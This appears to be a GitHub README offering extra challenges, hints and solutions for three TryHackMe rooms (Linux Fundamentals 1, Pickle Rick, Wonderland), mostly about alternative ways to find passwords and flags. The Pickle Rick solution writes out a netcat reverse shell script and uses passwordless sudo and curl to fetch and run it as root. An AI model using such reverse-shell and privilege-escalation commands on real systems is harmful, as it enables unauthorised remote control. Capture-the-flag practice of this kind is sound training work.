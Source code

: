 # TryHackMe Extra Challenges

## Free Rooms Index
<a href="#LinuxFundamentals1">Linux Fundamentals 1</a><br>
<a href="#PickleRick">Pickle Rick</a><br>
<a href="#Wonderland">Wonderland</a><br>
<br>
## Subscriber Rooms Index
tbd<br>
<br>
### Free Rooms Extra Challenges
<h4 id="LinuxFundamentals1"><a href="https://tryhackme.com/room/linux1">Linux Fundamentals 1</a></h4>
Don't follow the directions for using the shiba1 binary, but find another way to discover shiba2's password.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
It's a simple reverse engineering task.

<details>
<summary>Hint 2</summary>
  
<a href="https://linux.die.net/man/1/strings">strings</a>

<details>
<summary>Solution</summary>

Doing <code>strings shiba1</code> and review shows it includes the line "cat /etc/shiba/shiba2".<br>
<code class="language-plaintext highlighter-rouge">ls -al /etc/shiba/shiba2</code> shows the file is:<br>
-rw-r--r-- 1 root root 9 Feb 13  2020 /etc/shiba/shiba2<br>
This is readable by any local user, so shiba1 can <code class="language-plaintext highlighter-rouge">cat /etc/shiba/shiba2</code> for the password.<br>
      
</details>
</details>
</details>

<br>
<h4 id="PickleRick"><a href="https://www.tryhackme.com/room/picklerick">Pickle Rick</a></h4>
When the web command portal is found, the clue encourages you to keep working with this access. There is another method that is easier.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
Always check the permissions for your user.

<details>
<summary>Hint 2</summary>
  
A shell for the machine would remove limitations imposed on the web command portal.

<details>
<summary>Solution</summary>

It's possible to finish the Room quickly with the web command portal after checking the www-data user's <code class="language-plaintext highlighter-rouge">sudo -ll</code> and learning they have root access through sudo without a password. It's also possible to get a root shell by creating a local file called shell.sh as:<br>
#!/bin/bash<br>
mkfifo /tmp/lol<br>
nc 10.10.10.10 8008 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol<br>
<br>
Serve from local with <code class="language-plaintext highlighter-rouge">python3 -m http.server 8009</code> then pull it to the target through the web command portal with:<br>
<code class="language-plaintext highlighter-rouge">sudo curl http://10.10.10.10:8009/shell.sh -o /tmp/shell.sh</code><br>
 After the transfer, stop the local http.server and replace with a local listener to catch the shell using <code class="language-plaintext highlighter-rouge">nc -nlvp 8008</code>.<br>
Finish by using the web command portal to modify the file as <code class="language-plaintext highlighter-rouge">sudo chmod +x /tmp/shell.sh</code> and then execute with <code class="language-plaintext highlighter-rouge">sudo /tmp/shell.sh</code> to connect.<br>
 
</details>
</details>
</details>

<br>
<h4 id="Wonderland"><a href="https://tryhackme.com/room/wonderland">Wonderland</a></h4>
The Room is meant to be finished by rooting the box, though both flags can be found with a different method.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
Check the flag formats/masks and the Room tags. Tags are sometimes easier to see by doing a <a href="https://tryhackme.com/hacktivities?tab=search">search</a> for the Room name and looking at the preview in results.

<details>
<summary>Hint 2</summary>
  
It is not necessary to Deploy the machine.

<details>
<summary>Solution</summary>

The flag formats for Wonderland are very unusual for TryHackMe: they look like sentences or at least some kind of text. If you search Project Gutenberg, you can find a text-only format of Alice in Wonderland to copy local with:<br>
<code>wget http://www.gutenberg.org/files/11/11-0.txt</code><br>
Now we have the full text and <a href="https://www.gnu.org/software/grep/manual/grep.html#Introduction">grep</a> to search it.<br>
user.txt:<br>
<code class="language-plaintext highlighter-rouge">grep -sw -E '[[:graph:]]{10}[[:blank:]][[:graph:]]{3}[[:blank:]][[:graph:]]{11}' 11-0.txt</code><br>
<br>
root.txt is a little tricker by this method. Formatting the whole grep expression is an effort, but even with that dilligence it fails. However, that also requires learning how to add in checks for the commas, or include the counts in the "graph" portions. Those commas look helpful.<br>
Attempting only a search for the first portion:<br>
<code class="language-plaintext highlighter-rouge">grep -sw -E '[[:graph:]]{7}[,][[:blank:]][[:graph:]]{7}[,][[:blank:]][[:graph:]]{6}' 11-0.txt</code><br>
returns a single match, but on a line alone. Adding in the argument to get this line number from the text:<br>
<code class="language-plaintext highlighter-rouge">grep -swn -E '[[:graph:]]{7}[,][[:blank:]][[:graph:]]{7}[,][[:blank:]][[:graph:]]{6}' 11-0.txt</code><br>
returns 1737 for the line number. Using the <a href="https://linux.die.net/man/1/sed">sed</a> command to see what is happening in this area of the text:<br>
<code class="language-plaintext highlighter-rouge">sed '1732,1742!d' 11-0.txt</code><br>
reveals the two lines, separated from everything else, that can be entered to complete the flag.<br>
      
</details>
</details>
</details>

<br>
### Subscriber Rooms Extra Challenges
tbd<br>
<br>
